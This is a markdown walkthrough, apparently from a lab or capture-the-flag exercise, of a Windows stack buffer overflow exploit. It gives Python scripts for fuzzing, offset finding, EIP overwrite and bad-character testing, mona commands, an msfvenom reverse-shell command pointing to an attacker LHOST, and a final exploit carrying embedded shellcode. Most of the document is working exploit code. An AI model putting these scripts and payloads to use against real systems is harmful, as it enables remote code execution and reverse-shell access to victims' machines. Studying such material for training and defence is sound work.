


## Fuzzing

- Playing around with the application first to see how to send it bytes will allow to then do some fuzzing to see where and when it crashes
- Lets assume we have information on how to send data over to the application to being the fuzzing
```python
#!/usr/bin/python3
import sys, socket
from time import sleep
#Prefix is needed if the app requires a command to be sent with data
#prefix = "OVERFLOW3 " #Make sure to add prefix to payload
buffer = "A" * 100

while True:
    try:
        payload = buffer + '\r\n'
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.0.131', 31337))
        print("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()

```

- Pay attention to Immunity debugger, once it says `paused` that means the application has crashed. Take note at what amount of bytes the application crashed.
- In this example we will say that it crashed at `200 bytes`

## Finding the Offset

- Using a metasploit tool called pattern_create
```
#This will give us a pattern for our buffer variable
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
#why 200? thats where we saw that the crash happened approx in bytes
```
- Make sure to input this pattern into your buffer variable in the code:
```python
#!/usr/bin/python3
import sys, socket
#prefix = "OVERFLOW3 "
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- You will now be able to see the `EIP` which is what we need


- Using a metasploit tool called pattern_offset
```
#This will give us the exact offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <approx bytes when crash> -q <EIP finding>
```

- In this case, our offset is 146

## Overwriting the EIP

- Now that we have our offset, we will add our offset number into our payload variable as such:
```python
#!/usr/bin/python3
import sys, socket

#prefix = "OVERFLOW3 "
buffer = "A" * 146 + "B" * 4

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- When we run this payload, we will see that we now have complete control of the EIP


- We can see that the EIP is 42424242, which tells us that we have control of the EIP

## Finding Bad Characters

- We will now try to find bad characters to remove them
1. First set mona's path with `!mona config -set workingfolder c:\mona\%p`
2. Using mona to generate bad chars with `!mona bytearray -b “\x00”`
3. Input the bad chars into our python script and run it
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"B" * 4

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"   b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"            b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"            b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

print('Sending payload...')
payload = buffer + badchars + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
4. Grab the `ESP` which in this case is `007419E4`. Mona will use the ESP to compare and find bad characters
5. Using mona to compare and find bad chars with `!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <ESPaddress>`

6. Remove the bad char from our badchars variable in our python script

## Finding a Jump Point

- Using mona to find a jump point with `!mona jmp -r esp -cpb “\x00\x0a”`
- Click on `l` to see all the available pointer addresses
- In this case we will use: `0x080414c3`
- We are only interested in the contents of the address that comes after "0x"

## Making Sure We Hit The Break point

- We have everything we need. We must make sure to set a jmp point at that address we received with mona
- To do this:
1. Restart Application and immunity Debugger
2. Click on the blue arrow and enter the address after the "0x" to follow it: `080414c3`
3. You will see the "address FFE4 JMP ESP", Now click F2 and it should be highlighted which means the JMP is now set
- Now just put our pointer address into our python script as such:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
#Note that our address 080414C3 is now written backwards in pairs of two with an x in front
buffer = b"A" * 146 + b"\xc3\x14\x04\x08"
print('Sending payload...')
payload = buffer + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
- Run the payload and we should see a message in immunity debugger that says `breakpoint at <program>`

## Malicious Time!

- Create a reverse shell payload with meterpreter:
```
#Make sure to put all of your bad chars found
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.33.34 LPORT=1234 -b "\x00\x0a" -f c
```
- Grab the output and input into the variable bad chars in our python script
- Then edit the IP to the target IP and start a listener on the port specified with msfvenom:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"\xc3\x14\x04\x08" + b"\x90" * 32

payload2 = (b"\xda\xcf\xba\xbe\x17\x2b\x4f\xd9\x74\x24\xf4\x5f\x33\xc9"            b"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xe9\x04\xc9\xba\xe9"
b"\xc3\x8f\x45\x11\x14\xf0\xcc\xf4\x25\x30\xaa\x7d\x15\x80"            b"\xb8\xd3\x9a\x6b\xec\xc7\x29\x19\x39\xe8\x9a\x94\x1f\xc7"
b"\x1b\x84\x5c\x46\x98\xd7\xb0\xa8\xa1\x17\xc5\xa9\xe6\x4a"            b"\x24\xfb\xbf\x01\x9b\xeb\xb4\x5c\x20\x80\x87\x71\x20\x75"
b"\x5f\x73\x01\x28\xeb\x2a\x81\xcb\x38\x47\x88\xd3\x5d\x62"            b"\x42\x68\x95\x18\x55\xb8\xe7\xe1\xfa\x85\xc7\x13\x02\xc2"
b"\xe0\xcb\x71\x3a\x13\x71\x82\xf9\x69\xad\x07\x19\xc9\x26"            b"\xbf\xc5\xeb\xeb\x26\x8e\xe0\x40\x2c\xc8\xe4\x57\xe1\x63"
b"\x10\xd3\x04\xa3\x90\xa7\x22\x67\xf8\x7c\x4a\x3e\xa4\xd3"            b"\x73\x20\x07\x8b\xd1\x2b\xaa\xd8\x6b\x76\xa3\x2d\x46\x88"
b"\x33\x3a\xd1\xfb\x01\xe5\x49\x93\x29\x6e\x54\x64\x4d\x45"            b"\x20\xfa\xb0\x66\x51\xd3\x76\x32\x01\x4b\x5e\x3b\xca\x8b"
b"\x5f\xee\x5d\xdb\xcf\x41\x1e\x8b\xaf\x31\xf6\xc1\x3f\x6d"            b"\xe6\xea\x95\x06\x8d\x11\x7e\x23\x5f\x38\x5c\x5b\x5d\x3a"
b"\xa4\x49\xe8\xdc\xce\x7d\xbd\x77\x67\xe7\xe4\x03\x16\xe8"            b"\x32\x6e\x18\x62\xb1\x8f\xd7\x83\xbc\x83\x80\x63\x8b\xf9"
b"\x07\x7b\x21\x95\xc4\xee\xae\x65\x82\x12\x79\x32\xc3\xe5"            b"\x70\xd6\xf9\x5c\x2b\xc4\x03\x38\x14\x4c\xd8\xf9\x9b\x4d"
b"\xad\x46\xb8\x5d\x6b\x46\x84\x09\x23\x11\x52\xe7\x85\xcb"            b"\x14\x51\x5c\xa7\xfe\x35\x19\x8b\xc0\x43\x26\xc6\xb6\xab"            b"\x97\xbf\x8e\xd4\x18\x28\x07\xad\x44\xc8\xe8\x64\xcd\xf8"
b"\xa2\x24\x64\x91\x6a\xbd\x34\xfc\x8c\x68\x7a\xf9\x0e\x98"
b"\x03\xfe\x0f\xe9\x06\xba\x97\x02\x7b\xd3\x7d\x24\x28\xd4"            b"\x57")

print('Sending payload...')
payload = buffer + payload2 + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.20.232', 31337))
s.send(payload)
s.close()
```
- Success!


